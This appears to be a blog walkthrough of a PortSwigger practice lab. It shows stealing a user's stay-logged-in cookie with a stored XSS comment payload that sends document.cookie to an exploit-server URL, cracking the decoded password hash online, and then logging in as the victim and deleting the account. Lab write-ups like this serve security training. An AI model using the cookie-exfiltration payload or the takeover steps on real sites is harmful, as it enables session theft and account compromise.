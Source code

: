 ```yaml
---
title: Portswigger writeup - Offline Password Cracking
categories: [writeup,walkthrough,security]
tags: [writeup,walkthrough,portswigger,burp,login,security,password,offline]
---
```


This lab is in the same series than the previous article. The goal here to steal Carlos's "stay-logged-in" cookie to steal and delete his account. 

# ****Lab: Offline password cracking****

1. Click “My account button”
    
    ![offline-password-cracking-1.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-1.png)
    
2. Enter Wiener’s credentials, click “stay-logged-in” option and click “Log in”
    
    ![offline-password-cracking- (2).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-2.png)
    
3. In Proxy > HTTP History, click the the GET request “/my-account” and click on the arrow on the “stay-logged-in” cookie
    
    ![offline-password-cracking-3.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-3.png)
    
4. The base64 string is decoded: `username:password`O 
    
    ![offline-password-cracking-4.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-4.png)
    
5. Click “Home”
    
    ![offline-password-cracking-5.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-5.png)
    
6. Click a “View post” button
    
    ![offline-password-cracking-6.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-6.png)
    
7. In another tab, open the Exploit Server
    
    ![offline-password-cracking-7.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-7.png)
    
8. Copy its URL
    
    ![offline-password-cracking-8.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-8.png)
    
9. On the post opened at step 6, bottom page, add the following payload (change the URL for your exploit server), as well as random name, email address and website URL. Then click “Post comment”: `<script>document.location='https://exploit-server-url.com'+document.cookie</script>`
    
    ![offline-password-cracking-9.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-9.png)
    
10. Click “Back to blog”
    
    ![offline-password-cracking-10.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-10.png)
    
11. The blog post will be redirected to a similar page (here on Firefox)
    
    ![offline-password-cracking-11).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-11.png)
    
12. Go back the the exploit server and click “Access log”
    
    ![offline-password-cracking-12.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-12.png)
    
13. A GET request “/exploitserver” appears in the list, containing a “stay-logged-in” cookie, copy its string
    
    ![offline-password-cracking-13.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-13.png)
    
14. Go to [base64decode.org](http://base64decode.org), paste the string previously copied to decode it and copy the hashed password, after “`carlos:`”
    
    ![offline-password-cracking-14.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-14.png)
    
15. Go to [crackstation.net](http://crackstation.net) and paste the hash to get Carlos’s password
    
    ![offline-password-cracking-15.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-15.png)
    
16. Go back to the lab’s tab and click multiple times on the “Go back” button until you can see the website without being redirected
    
    ![offline-password-cracking-16.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-16.png)
    
17. If needed, click “My account”, according to the point you have reached using the “Go back” button, and click “Log out”
    
    ![offline-password-cracking-17.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-17.png)
    
18. Click “My account” again
    
    ![offline-password-cracking-18.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-18.png)
    
19. Enter “carlos” as a username and the password previously found at step 16 on Crackstation, “onceuponatime”, and click “Log in”
    
    ![offline-password-cracking-19.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-19.png)
    
20. When you are on Carlos’s “My account” page, click “Delete account”
    
    ![offline-password-cracking-20.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-20.png)
    
21. Paste one more time his password as a confirmation and click “Delete account!”
    
    ![offline-password-cracking-21.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-21.png)
    
22. The lab is solved
    
    ![offline-password-cracking-22.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-22.png)